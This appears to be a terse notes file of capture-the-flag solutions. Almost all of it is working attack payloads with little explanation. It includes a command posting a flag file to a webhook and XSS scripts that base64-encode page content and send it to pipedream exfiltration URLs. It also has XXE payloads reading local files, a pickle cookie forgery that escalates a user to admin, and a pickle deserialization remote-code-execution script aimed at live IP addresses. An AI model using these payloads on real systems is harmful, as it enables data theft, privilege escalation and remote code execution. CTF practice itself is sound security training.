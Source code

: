 # ctf
ctf

Downloader-v1:
https://eodlwq7lnoytrkk.m.pipedream.net / --post-file '/var/www/html/flag.php' 

framable:
<script> 
var exfil = document.getElementsByTagName("body")[0].innerHTML; 
window.location.href="https://enmi59d56bybo.x.pipedream.net?gio=" + btoa(exfil); 
</script> 

manual-review:
<script>window.location.href="https://your-pipedream-url.x.pipedream.net/hello";</script> 

cyntaxcheck payloads:
payload 1: 
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [ 
<!ELEMENT foo ANY> 
<!ENTITY xxe SYSTEM 
"file:///var/www/html/flag"> 
]> 
<foo> 
</foo> 
Payload 2: 
&xxe; 
<?xml version="1.0" encoding="ISO-8859-1"?> 
<!DOCTYPE foo [ 
<!ELEMENT foo ANY> 
<!ENTITY xxe SYSTEM 
"php://filter/convert.base64-encode/resource=/var/www/html/flag"> 
]> 
<foo> 
&xxe; 
</foo> 

alpa-cookie:
pip install pwntools 
python3 

 from pwn import xor 
 decoded_data = 
bytes.fromhex("6f50327a481d6d33243e3f5a32375d2427765d486933047422362b3a6b3b2a04
 4c3c64") 
key = "G4BJBNJCALR3AD4KIQW8X9WSWENHL1Z6FOJ" 
result = xor(decoded_data, key)
print(result)
import pickle 
parsed_data = pickle.loads(b"(dp0\nS'permission'\np1\nS'user'\np2\ns.") 
print(parsed_data)
 parsed_data['permission'] = 'admin' 
mofified_payload = pickle.dumps(parsed_data, protocol=2) 
print(modified_payload)
print(mofified_payload)
encoded_payload = xor(mofified_payload, key)
 print(encoded_payload.hex())

 rundown:
 curl -X POST "http://35.198.127.202:30947/" > output.html 
 firefox output.html
Payload:  
import pickle as cPickle 
import base64 
import os 
import string 
import requests 
import time 
class Exploit(object): 
def __reduce__(self): 
return (eval, ('eval(open("flag","r").read())',)) 
def sendPayload(p): 
newp = base64.urlsafe_b64encode(p).decode() 
headers = {'Content-Type': 'application/T3jv1l'} 
r = 
requests.post("http://34.159.172.66:32274/",headers=headers,data=newp) 
return r.text 
payload_dec = cPickle.dumps(Exploit(), protocol=2) 
print("ctf{" + sendPayload(payload_dec).split("ctf{")[1].split("}")[0] + 
"}") 
